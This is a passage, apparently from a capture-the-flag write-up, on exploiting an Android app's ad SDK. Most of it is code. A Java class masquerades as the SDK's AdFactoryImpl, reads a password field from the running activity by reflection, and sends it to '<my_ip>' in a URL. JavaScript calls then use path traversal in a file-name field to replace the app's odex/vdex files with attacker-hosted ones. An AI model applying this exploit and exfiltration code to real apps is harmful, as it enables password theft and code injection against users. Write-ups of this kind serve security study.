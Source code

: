 
After some trial and error, I found out that I have to create a class with the name com.ads.sdk.impl.AdFactoryImpl, that implements IBinder. The first function that is called in our class is queryLocalInterface, so let's write our code to read the password there:
```java
public class AdFactoryImpl implements IBinder {
    ...

    public IInterface queryLocalInterface(@NonNull String s) {
        StrictMode.ThreadPolicy policy = new StrictMode.ThreadPolicy.Builder().permitAll().build();
        StrictMode.setThreadPolicy(policy);
        String password = ((TextView)getActivity().findViewById(0x7f070078)).getText().toString();
        new URL("http://<my_ip>/password.png?" + password).openStream();
    }

    public static Activity getActivity() throws Exception {
        Class activityThreadClass = Class.forName("android.app.ActivityThread");
        Object activityThread = activityThreadClass.getMethod("currentActivityThread").invoke(null);
        Field activitiesField = activityThreadClass.getDeclaredField("mActivities");
        activitiesField.setAccessible(true);

        Map<Object, Object> activities = (Map<Object, Object>) activitiesField.get(activityThread);
        if (activities == null)
            return null;

        for (Object activityRecord : activities.values()) {
            Class activityRecordClass = activityRecord.getClass();
            Field pausedField = activityRecordClass.getDeclaredField("paused");
            pausedField.setAccessible(true);
            if (!pausedField.getBoolean(activityRecord)) {
                Field activityField = activityRecordClass.getDeclaredField("activity");
                activityField.setAccessible(true);
                Activity activity = (Activity) activityField.get(activityRecord);
                return activity;
            }
        }

        return null;
    }

    ...
}
```

So our local solution is:

```javascript
await call(["store-picture.mraid", "url", "http://10.0.2.2:8888/ads-impl.odex", "name" ,"../../../../../../../data/user/0/com.example.app/app_ads/oat/x86_64/ads-impl.odex"]);
await call(["store-picture.mraid", "url", "http://10.0.2.2:8888/ads-impl.vdex", "name" ,"../../../../../../../data/user/0/com.example.app/app_ads/oat/x86_64/ads-impl.vdex"]);
await call(["refresh", "url", "http://10.0.2.2:8888/ad3.html"]);
```
(Refresh will cause it to reload the apk)
